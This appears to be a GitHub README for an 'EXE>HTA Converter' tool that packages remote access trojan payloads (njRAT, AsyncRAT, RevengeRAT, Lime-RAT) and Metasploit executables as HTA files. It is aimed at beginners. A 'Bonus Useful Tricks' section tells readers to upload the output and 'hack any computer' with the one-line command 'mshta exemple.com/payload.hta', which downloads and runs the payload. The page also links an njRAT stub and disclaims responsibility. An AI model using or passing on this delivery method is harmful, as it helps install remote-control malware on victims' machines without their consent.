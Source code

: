 ### Welcome to EXE>HTA Converter tool version 1.00

This tool will convert EXE file to HTA extension it's very simple to use, and a lot faster.

<img src="screenshots/Start.png" width=400 align="center">

<img src="screenshots/Payload.png" width=400 align="center">

<img src="screenshots/Finish.png" width=400 align="center">

### ❗ What is this ?

EXE>HTA is a tool that automate procedures during converting a payload from EXE into HTA extension. It works with njRAT & Metasploit and someother RAT's. This tool was made for Windows users.

Video Proof: https://youtu.be/3xzOEhswhnw

### ⚙️ FEATURES

- Convert EXE to HTA
- Compatible with njRAT
- Compatible with Metasploit
- Compatible with AsyncRAT
- Compatible with RevengeRAT
- Compatible with Lime-RAT & a lot more...
- Easy to use & it doesn't need knowledge

### 📖 HOW TO INSTALL

1. Donwload & install python3 ('https://www.python.org/downloads/')
2. Download 'njRAT C# Stub' from github ('git clone https://github.com/NYAN-x-CAT/njRAT-0.7d-Stub-CSharp')
2. Download the tool
3. Unzip the file
4. Open the EXETOHTA.exe file
4. Select your python.exe path
5. Select your payload.exe path
6. press CONVERT button.

To learn more please watch this video: https://youtu.be/3xzOEhswhnw

### 📡 HOW TO UPDATE

You can check updates from our official website:
https://ctoslab.com/products/


For feature recommendation please add it on the "Issues" tab or contact us:
https://www.ctoslab.com/support/

### 💡 Bonus Useful Tricks! (For Beginners)

You can upload 'output.hta' to a file uploader website (ex. zippyshare, upload.ee ...) and hack any computer using only OneLineCode.
Exemple:
Press START+R to open Run
And write: mshta exemple.com/payload.hta
It will download and execute the payload automatically.

### 💰 Donate

If you like my work, consider buying me a coffee :)

Bitcoin > 12ZGhmVWi8QboVoExWjUFinyJpaKLqAmHN

⚠️ We are not responsible on how you use this tool. 
